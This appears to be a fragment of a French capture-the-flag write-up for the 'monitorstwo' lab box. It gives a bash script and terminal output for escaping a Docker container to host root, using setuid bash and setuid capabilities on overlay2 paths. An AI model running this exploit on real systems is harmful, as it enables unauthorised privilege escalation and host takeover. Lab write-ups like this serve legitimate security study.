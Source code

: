 ```bash
{
	echo "You need to be root on the docker container."
	echo "To do so, you can try various technics."
	echo 'If you have capsh installed on it, just do "capsh --gid=0 --uid=0 --"'
	echo "Then, just chmod u+s on /bin/bash to set the suid bit on it."
	echo "https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities"
	echo "You can also make a small program."
	echo "If you have wget or curl, just import and compile be_root.c on the container."
	echo "Then just set the capabilities on the program :"
	echo "setcap cap_setgid,cap_setuid+eip beroot"
	echo "Other example : setcap cap_setuid+ep /usr/bin/python3.8"
	echo "/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system(\"/bin/bash\");'"
	read -p "When 'chmod u+s bash' is done, press a key : " key
	cutted_paths=$(findmnt | grep /var/lib/docker/overlay2/ | awk '{print $1}' | cut -d "/" -f6-)
	for path in $(echo ${cutted_paths});do
		/var/lib/docker/overlay2/${path}/bin/bash -p
		if [ $? -eq 0 ];then
			echo "The following path is vulnerable :"
			echo "/var/lib/docker/overlay2/${path}"
			echo "Bye !"
			exit 0
		fi
	done
}

is_vulnerable
find_path
```

Avec le programme:

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp$ ./beroot
root@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp# exit
exit
```


Et voilà !
